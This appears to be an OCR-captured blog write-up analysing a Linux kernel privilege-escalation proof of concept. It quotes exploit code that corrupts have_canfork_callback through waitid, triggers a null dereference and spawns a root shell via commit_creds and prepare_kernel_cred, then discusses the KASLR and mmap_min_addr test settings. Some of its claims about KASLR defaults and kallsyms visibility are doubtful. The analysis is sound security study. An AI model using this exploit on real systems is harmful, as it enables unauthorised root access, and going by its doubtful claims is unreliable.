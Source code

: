 ```c
 
    if(-1 == (pid = fork())) {
        perror("fork()");
        return EXIT_FAILURE;
    }
 
    if(pid == 0) {
        _exit(0xDEADBEEF);
        perror("son");
        return EXIT_FAILURE;
    }
 
    siginfo_t *ptr = (siginfo_t*)strtoul(av[1], (char**)0, 0);
    waitid(P_PID, pid, ptr, WEXITED | WSTOPPED | WCONTINUED);
 
    // TRIGGER
    pid = fork();
    printf("fork_ret = %d\n", pid); 
    if (pid > 0)
        get_shell();
    return EXIT_SUCCESS;
}
```
What 'the maker' said about that code, in short.
> For exploitation, trigger null dereference.
> Overwrite have_canfork_callback (.bss seg in kernel),
> if have_canfork_callback is set to a value other than 0, unset callback (null) is occurred.
> ...

## But...
But... Let's talk about *my small option* **only about** that *payload*, **Only talk about that payload**, i can say that it's triggered, but... something is missing(?).
Of course maybe, that payload was made for **trigger purposes only**.

Because of the testing environments. *KASLR* is off and *mmap min address* is 0 for triggering null dereference.
> -nokaslr
> sysctl -w vm.mmap_min_addr=0

### 1. KASLR Bypass
Let's talk about it first, **kernel-land ASLR**, **KASLR** is supported from *linux kernel 4.4*. When we boot with *kaslr option*, then *kaslr* will be applied. If not, *kaslr* is off.
Normally we just boot the OS, then *kaslr* is off.

And another question is below.
```c
    prepare_kernel_cred = (prepare_kernel_cred_t)get_kernel_sym("prepare_kernel_cred");
    commit_creds = (commit_creds_t)get_kernel_sym("commit_creds");
```
This part from the code is just getting the addresses from */proc/kallsyms*.
But actually, it does not work as well because if we read the address from */proc/kallsysms* without *root perm* and *kaslr*, the address would be 0.
In summary,
* with *nokaslr*, **user gets** 0, **root** gets **exact address**.
* with *kaslr*, can read but all time **random address**. (try it yourself!)
